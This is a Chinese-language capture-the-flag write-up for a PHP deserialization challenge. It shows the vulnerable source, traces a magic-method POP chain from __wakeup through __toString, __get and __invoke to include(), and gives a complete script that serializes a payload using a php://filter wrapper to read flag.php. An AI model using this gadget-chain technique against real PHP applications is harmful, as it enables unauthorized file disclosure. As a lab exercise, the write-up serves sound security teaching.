

打开靶机，直接给我们源码，代码审计，

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
| <?php
class Modifier {
protected $var;
public function append($value){
include($value);
}
public function __invoke(){
$this->append($this->var);
}
}
class Show{
public $source;
public $str;
public function __construct($file='index.php'){
$this->source = $file;
echo 'Welcome to '.$this->source."<br>";
}
public function __toString(){
return $this->str->source;
}
public function __wakeup(){
if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
echo "hacker";
$this->source = "index.php";
}
}
}
class Test{
public $p;
public function __construct(){
$this->p = array();
}
public function __get($key){
$function = $this->p;
return $function();
}
}
if(isset($_GET['pop'])){
@unserialize($_GET['pop']);
}
else{
$a=new Show;
highlight_file(__FILE__);
}
|
1.触发Modifier::__invoke()（将对象当作函数调用时自动触发）来调用append($this->var)。
2.但__invoke()需要将Modifier对象作为函数调用。如何触发？
在Test::__get($key)中，有一行:$function = $this->p; return $function();
如果$this->p是一个Modifier对象，那么$function()就会触发__invoke()。
3.如何触发Test::__get($key)？
当访问一个不可访问属性（如未定义或不可见）时，__get()会被调用。
在Show::__toString()中，有一行：return $this->str->source;
如果$this->str是一个Test对象，且Test对象没有source属性，那么访问$this->str->source就会触发Test::__get('source')。
4.如何触发Show::__toString()？
在Show::__wakeup()中，有preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)。如果$this->source是一个Show对象（而不是字符串），那么preg_match会试图将对象转换为字符串，从而触发__toString()。
构造pop链：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
| <?php
class Modifier {
protected $var="php://filter/read=convert.base64-encode/resource=flag.php";
}
class Show{
public $source;
public $str;
}
class Test{
public $p;
}
$modifier = new Modifier();
$test = new Test();
$test->p = $modifier;
$show2 = new Show();
$show2->str = $test;
$show1 = new Show();
$show1->source = $show2;
$payload = serialize($show1);
echo urlencode($payload);
?>
|


base64解码，

获得flag